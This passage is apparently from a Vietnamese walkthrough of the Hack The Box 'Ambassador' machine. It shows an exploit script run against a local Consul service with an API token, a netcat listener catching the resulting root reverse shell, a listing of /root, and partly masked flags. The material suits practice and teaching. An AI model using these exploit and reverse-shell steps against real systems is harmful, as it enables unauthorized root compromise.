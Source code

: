 Thực thi đoạn exploit, có thể đánh các option dạng cả chữ hoặc viết tắt cũng được (xem thêm tại trang github của [GatoGamer1155](https://github.com/GatoGamer1155).

```bash
developer@ambassador:/tmp$ python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.29 --lp 4444 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener
                                                                                                                    
developer@ambassador:/tmp$
```

Kết nối thành công và chỉ cần đi đến đường dẫn /root để tìm tập root.txt

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador ]
└─$ nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.11.183] 34622
bash: cannot set terminal process group (1894): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/#
```

```bash
root@ambassador:/# cd /root
cd /root
root@ambassador:~# ls -alh
ls -alh
total 56K
drwx------  6 root root 4.0K Sep 14 17:13 .
drwxr-xr-x 20 root root 4.0K Sep 15 17:24 ..
-rw-r--r--  1 root root 3.1K Mar 14  2022 .bashrc
drwx------  2 root root 4.0K Mar 13  2022 .cache
-rwxr-xr-x  1 root root   62 Sep 14 11:00 cleanup.sh
drwxr-xr-x  3 root root 4.0K Sep  7 17:20 .local
lrwxrwxrwx  1 root root    9 Sep  7 17:33 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Jan 15 06:19 root.txt
-rw-r--r--  1 root root   75 Sep  2 02:46 .selected_editor
drwx------  3 root root 4.0K Mar 13  2022 snap
drwx------  2 root root 4.0K Mar 13  2022 .ssh
-rw-------  1 root root 9.9K Sep 14 17:13 .viminfo
root@ambassador:~#
```

# 4. Thu thập Flags :

Sử dụng tài khoản “developer” → tìm được flag user.txt (87xxxxxxxxxxxxxxxxxxxxxxxxxxxxac).


Sử dụng  reverse-shell → tìm được flag root.txt (80xxxxxxxxxxxxxxxxxxxxxxxxxxxx4a).

# 5. Tài liệu tham khảo :
